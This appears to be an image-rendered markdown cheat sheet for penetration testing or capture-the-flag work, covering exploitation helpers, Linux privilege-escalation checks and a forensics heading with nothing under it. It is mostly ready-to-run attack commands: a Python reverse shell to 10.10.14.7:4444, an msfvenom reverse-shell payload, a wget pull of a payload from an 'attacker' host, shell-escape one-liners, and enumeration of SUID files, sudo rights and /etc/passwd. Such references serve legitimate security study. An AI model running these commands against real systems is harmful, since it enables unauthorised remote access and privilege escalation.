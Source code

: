 ## 🔓 Exploitation helpers

```bash
# ROP gadgets
ropper --file binary --search "pop rdi"
# Generate simple shellcode (msfvenom)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf > shell.elf
# Python reverse shell (x86_64)
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.7",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'

# Uploading files via common services
# HTTP using curl
curl -F "file=@local.bin" http://target/upload
# Using python3 -m http.server
python3 -m http.server 8000
# On target pull: wget http://attacker:8000/payload

# When escaping restricted shells
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh -i
TERM=xterm-256color bash -i
```

---

## 🔐 Privilege Escalation (local checks)

```bash
# Kernel / OS info
uname -a
cat /etc/issue
cat /etc/os-release
# SUID/SGID/Capabilities
find / -perm -4000 -type f 2>/dev/null    # SUID
getcap -r / 2>/dev/null                   # file capabilities
# World writable dirs
find / -writable -type d 2>/dev/null
# Active services
ps aux --sort=-%mem | head
ss -tulpen
# Common checks
sudo -l                                     # sudo rights
cat /etc/passwd | awk -F: '{print $1}'       # users
for d in /var/backups /home /root; do ls -la $d 2>/dev/null; done
```

---

## 🔍 Forensics & artifact recovery
